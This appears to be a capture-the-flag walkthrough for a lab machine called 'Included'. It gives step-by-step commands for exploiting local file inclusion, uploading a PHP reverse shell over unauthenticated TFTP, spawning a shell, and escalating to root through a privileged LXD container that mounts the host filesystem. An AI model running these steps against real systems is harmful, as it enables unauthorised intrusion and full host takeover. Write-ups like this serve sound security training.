




# Included

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  PHP  
  Custom Applications  
  Protocols  
  Apache  
  TFTP  
  LXD  
  Reconnaissance  
  Local File Inclusion  
  Clear Text Credentials  
  Arbitrary File Upload  

#### Description
  Implement more complex enumeration techniques for finding vulnerabilities. 

#### **Initial Enumeration**
  80/tcp : http  : Apache httpd 2.4.29 ((Ubuntu))

  We can see from visiting the webpage on port 80, the website is possible vulnerable to local file inclusion. The link looks like this: 
  ``` bash
    http://{TARGET_IP}/?file=home.php
  ```
  We can test for this vulnerability by writing a curl command for file we know would be on the target machine. This can be protected against if a working directory is specified by the program. 

  

#### **TFTP**
  *TFTP* or *Trivial File Transfer Protocol* allows basic file transfer function over *UDP* or *User Datagram Protocol* with no user authentication. Reading through /etc/passwd we see that a recent try reads as *tftp*.  

  To enumerate UDP ports the nmap command requires the <code>-sU</code> flag:
  ``` bash
    sudo nmap -sU {TARGET_IP}
  ```
  This scan requires sudo privileges and takes a bit more time. We find ports:  

  68/udp : dhcpc  
  69/udp : tftp  

  Since there is no tftp user authentication, we can connect to it and upload a shell script for access to the target. 

#### **Reverse Shell**
  The script can be uploaded using TFTP, we can start a listener on the port we specified in the reverse shell script. On the issue of where the file is uploaded, a Google search would tell us that the default file location for TFTP is */var/lib/tftpboot* and confirmed by a recent entry in /etc/passwd.

  

  To establish the reverse shell through netcat we can use curl:
  ``` bash
    curl 'http://{TARGET_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'
  ```

  Once the shell is established, we can stabilize the console using:
  ``` bash
    python3 -c 'import  pty;pty.spawn("/bin/bash")'
  ```

#### **Lateral Movement**
  The user account we aer logged into right now does not permissions to read some of the files. However, navigating to /home/ we see there is another user. One thing we can do is inspect /var/www/html/ for hidden files. Checking the directory with <code>ls -al</code> we see a couple files: <code>.htaccess</code> and <code>.htpasswd</code>. 

  

#### **Privilege Escalation**
  Now that we have higher privileges, the next step would be to escalate further into root access. Checking the <code>id</code> for the user account we see that it is part of group <code>lxd</code>. 

  *LXD* is an API for dealing with LXC containers on Linux systems to perform tasks for any members of the lxd group. It does not match permission of the calling user. Meaning members can escalate privileges to root on the host OS. 

  We can use a tool called *distrobuilder* to create a tar.xz and rootfs.squashfs for uploading onto the target machine. After uploading, we import he images using lxd:
  ``` bash
    # import image using CLI tool
    lxc image import incus.tar.xz rootfs.squashfs --alias alpine

    # verify success by listing images
    lxc image list
  ```

  

  After, the image is up and running we need to set the <code>security.privileged</code> flag to true for the container to have root access. Then mount the root file system on the container in the <code>/mnt</code> folder.
  ``` bash
    lxc init alpine privesc -c security.privileged=true
    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
  ```

  Next, we can start the container and root shell:
  ``` bash
    lxc start privesc
    lxc exec privesc /bin/sh
  ```
  
  Now we have root access to the system!